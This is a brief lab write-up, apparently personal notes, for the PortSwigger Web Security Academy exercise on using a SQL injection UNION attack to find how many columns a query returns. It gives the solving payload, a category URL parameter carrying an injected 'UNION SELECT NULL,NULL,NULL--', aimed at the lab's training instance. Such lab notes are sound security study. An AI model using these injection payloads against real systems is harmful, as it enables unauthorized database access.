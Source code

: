 # Lab: SQL injection UNION attack, determining the number of columns returned by the query
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack. 
* Hint: To solve the lab, determine the number of columns returned by the query by performing a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.


#### Exp
Payload: `https://0ab2008b04e96b8f8057358e008d00d0.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,NULL,NULL--`
:::spoiler Success Screenshot
![](https://i.imgur.com/yZ3QPPF.png)
:::


## Reference